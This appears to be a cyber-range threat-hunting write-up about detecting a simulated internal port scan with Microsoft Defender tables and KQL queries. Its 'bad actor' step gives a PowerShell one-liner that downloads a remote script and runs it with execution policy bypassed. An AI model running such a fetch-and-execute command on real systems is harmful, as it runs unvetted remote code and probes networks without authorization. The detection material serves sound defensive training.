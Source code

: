 # Threat Event (Sudden-Network-Slowdown)
**Use of Powershell to run "Malicious" script**

## Steps the "Bad Actor" took Create Logs and IoCs:
1. Execute the following code in Powershell:
- `Invoke-WebRequest -Uri 'https://raw.githubusercontent.com/joshmadakor1/lognpacific-public/refs/heads/main/cyber-range/entropy-gorilla/portscan.ps1' -OutFile 'C:\programdata\portscan.ps1';cmd /c powershell.exe -ExecutionPolicy Bypass -File C:\programdata\portscan.ps1`

## What this script does:
- `portscan.ps1` is a PowerShell script designed to simulate a malicious actor performing a port scan, intended for cybersecurity training and detection testing. It demonstrates how an attacker might probe for open ports to identify potential vulnerabilities within a network. This script is meant to be used in controlled environments only.

---

## Tables Used to Detect IoCs:

| **Parameter**       | **Description**                                                              |
|---------------------|------------------------------------------------------------------------------|
| **Name** | DeviceNetworkEvents |
| **Info** | [DeviceNetworkEvents Documentation](https://learn.microsoft.com/en-us/defender-xdr/advanced-hunting-devicenetworkevents-table) |
| **Purpose** | Used to detect internal port scanning activity by identifying a high volume of connection attempts from the same host. |

| **Parameter**       | **Description**                                                              |
|---------------------|------------------------------------------------------------------------------|
| **Name** | DeviceProcessEvents |
| **Info** | [DeviceProcessEvents Documentation](https://learn.microsoft.com/en-us/defender-xdr/advanced-hunting-deviceprocessevents-table) |
| **Purpose** | Used to identify suspicious PowerShell activity, including the execution of `portscan.ps1` using bypassed execution policy, and the parent-child relationship of involved processes. |

| **Parameter**       | **Description**                                                              |
|---------------------|------------------------------------------------------------------------------|
| **Name** | DeviceLogonEvents |
| **Info** | [DeviceLogonEvents Documentation](https://learn.microsoft.com/en-us/defender-xdr/advanced-hunting-devicelogonevents-table) |
| **Purpose** | Used to confirm the interactive login of user prior to execution of the port scanning script. |



---

## Related Queries:
```kql
//Look for failed connections to determine cause of network slowdown
DeviceNetworkEvents
| where ActionType == "ConnectionFailed"
| summarize FailedConnectionAttempts = count() by DeviceName, ActionType, LocalIP, RemoteIP
| order by FailedConnectionAttempts desc


//Look for cause of portscan
let SpecificTime = datetime(2025-04-20T13:12:29.9031119Z);
DeviceProcessEvents
| where DeviceName == "edr-machine"
| where Timestamp between ((SpecificTime - 1m) .. (SpecificTime + 1m))
| project Timestamp, DeviceName, ActionType, FileName, ProcessCommandLine, FolderPath
| sort by Timestamp asc

//Instances of Powershell for chain of execution
let SpecificTime = datetime(2025-04-20T13:12:29.9031119Z);
DeviceProcessEvents
| where DeviceName == "edr-machine"
| where FileName == "powershell.exe"
| where Timestamp between ((SpecificTime - 1m) .. (SpecificTime + 1m))
| project Timestamp, DeviceName, ActionType, FileName, ProcessCommandLine, FolderPath, InitiatingProcessParentFileName, LogonId
| sort by Timestamp asc

//Use Logon events to determine if a user initiated the portscan
let SpecificTime = datetime(2025-04-20T13:12:29.9031119Z);
DeviceLogonEvents
| where DeviceName == "edr-machine"
| where Timestamp between ((SpecificTime - 1m) .. (SpecificTime + 1m))
| project Timestamp, ActionType, LogonType, AccountDomain, AccountName
| where ActionType == "LogonSuccess"
| sort by Timestamp desc

//Verify an interactive login session
DeviceProcessEvents
| where DeviceName == "edr-machine"
| where Timestamp between (datetime(2025-04-20T13:11:00Z) .. datetime(2025-04-20T13:13:00Z))
| where FileName == "explorer.exe" or FileName == "powershell.exe"
| project Timestamp, AccountDomain, FileName, ProcessCommandLine, InitiatingProcessFileName, InitiatingProcessParentFileName, AccountName
| sort by Timestamp desc

```

---

## Created By:
- **Author Name**: Jordan West
- **Author Contact**: https://www.linkedin.com/in/jordan-west-it/
- **Date**: April 16, 2025

## Validated By:
- **Reviewer Name**: 
- **Reviewer Contact**: 
- **Validation Date**: 

---

## Additional Notes:
- **None**

---

## Revision History:
| **Version** | **Changes**                   | **Date**         | **Modified By**   |
|-------------|-------------------------------|------------------|-------------------|
| 1.0         | Initial Draft                 |`September 6, 2024`| `Josh Madakor` |
| 2.0         | Updated draft                 | `April 21, 2025`  | `Jordan West`   |


